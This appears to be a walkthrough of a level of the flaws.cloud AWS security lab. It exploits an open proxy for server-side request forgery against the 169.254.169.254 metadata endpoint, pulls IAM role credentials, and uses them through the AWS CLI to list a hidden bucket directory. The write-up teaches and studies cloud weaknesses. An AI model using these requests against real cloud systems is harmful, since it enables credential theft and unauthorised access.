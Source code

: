 http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/flaws.cloud/

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/summitroute.com/blog/feed.xml

http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/neverssl.com/

HTTP may be vulnerable to SSRF (Server-Side Request Forgery) . We can try accessing the metadata

via [http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833104169&usg=AOvVaw0aqZQ0edoKfSICXc7uMWsS)

169.254.169.254/latest/meta-data is a well known way of accessing the meta data of a service.

[![image27.png](https://i.postimg.cc/fRB12GLt/image27.png)](https://postimg.cc/k2RjDhWq)

Then :

[http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833104979&usg=AOvVaw04C1meET1WltQNyJY9vcHm)/iam

[![image6.png](https://i.postimg.cc/K82Zhhx0/image6.png)](https://postimg.cc/CzcybtZ8)

[http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833105811&usg=AOvVaw3jJ7ggdWvk71nw52YEUiOU)/iam/security-credentials/

[![image31.png](https://i.postimg.cc/wBY9H8zW/image31.png)](https://postimg.cc/CR73H2zD)

[http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data](https://www.google.com/url?q=http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data&sa=D&source=editors&ust=1726489833106439&usg=AOvVaw0oW4Hy_REC573I6tCstjv2)/iam/security-credentials/flaws

[![image18.png](https://i.postimg.cc/BvvfJqyB/image18.png)](https://postimg.cc/pm36ZtPm)

We have obtained access keys credentials used to run the IAM access , we can create a profile with cli access 

[![image19.png](https://i.postimg.cc/5tkd0hWd/image19.png)](https://postimg.cc/qtnZDZ7j)

then nano ~/.aws/credentials and add the session token found with the IAM role credentials.

 We are to figure out how to list the contents of the level6 bucket at level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud that has a hidden directory in it.

Using the created profile we list the contents

[![image14.png](https://i.postimg.cc/Fstv0Xdh/image14.png)](https://postimg.cc/MXYg84mL)

the directory is ddcc78ff and with a index.html

[http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/index.html](https://www.google.com/url?q=http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/index.html&sa=D&source=editors&ust=1726489833108120&usg=AOvVaw3W9CaTMaR4jafqImt2cU5F)

[![image49.png](https://i.postimg.cc/Pqy97B5v/image49.png)](https://postimg.cc/KKK0kpLm)

